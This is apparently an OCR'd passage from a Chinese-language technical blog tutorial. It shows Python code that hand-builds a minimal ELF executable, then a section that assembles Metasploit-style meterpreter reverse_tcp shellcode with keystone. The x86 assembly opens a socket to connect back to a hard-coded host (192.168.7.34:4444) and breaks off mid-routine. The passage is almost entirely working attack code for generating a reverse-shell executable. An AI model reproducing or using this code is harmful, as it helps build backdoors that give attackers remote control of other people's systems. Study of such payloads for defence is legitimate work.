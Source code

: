 ```

    elf_header = build_elf_header()
    elf_pheader = build_elf_pheader()
    elf_header.e_entry = elf_pheader.p_vaddr + c.sizeof( elf_header ) + c.sizeof( elf_pheader ) 

    shellcode = "".join( 
            [ 
                chr( i ) for i in shellcode 
            ] 
        ).encode("latin-1")

    elf_pheader.p_filesz = c.sizeof( elf_header ) + c.sizeof( elf_pheader )  + len(shellcode)
    elf_pheader.p_memsz  = elf_pheader.p_filesz + 0x100

    elf_header_bytes = c.string_at(c.addressof(elf_header),c.sizeof(elf_header))
    elf_pheader_bytes = c.string_at(c.addressof(elf_pheader),c.sizeof(elf_pheader))

    with open(FILENAME,"wb") as fd:
        fd.write( elf_header_bytes + elf_pheader_bytes + shellcode )
```

### <a class="reference-link" name="%E6%8F%92%E5%85%A5shellcode"></a>插入shellcode

上述elf文件是可以执行，但是啥都没干。为了实现 meterpreter reverse_tcp 的功能，我们这里利用把metasploit中的shellcode代码copy过来，在这里进行汇编，写入elf文件中。

写如下代码：

```
import keystone as k

def generate_shellcode(retry_count = 10,host="192.168.7.34",port="4444"):
    ks = k.Ks(k.KS_ARCH_X86,MODE)

    encoded_host = hex(sum([256**j*int(i) for j,i in enumerate(host.split('.'))]))

    encoded_port = hex( struct.unpack("&gt;I",struct.pack("&lt;HH",int(port),0x0200))[0] )

    if ARCH == "x86":
        shellcode = '''
            push `{`retry_count`}`
            pop esi ;
        create_socket:
            xor ebx, ebx ;
            mul ebx ;
            push ebx ;
            inc ebx ;
            push ebx ;
            push 0x2 ;
            mov al, 0x66 ;
            mov ecx, esp ;
            int 0x80 
            xchg eax, edi   

        set_address:
            pop ebx            
            push `{`encoded_host`}`
            push `{`encoded_port`}`
            mov ecx, esp

        try_connect:
            push 0x66
            pop eax
```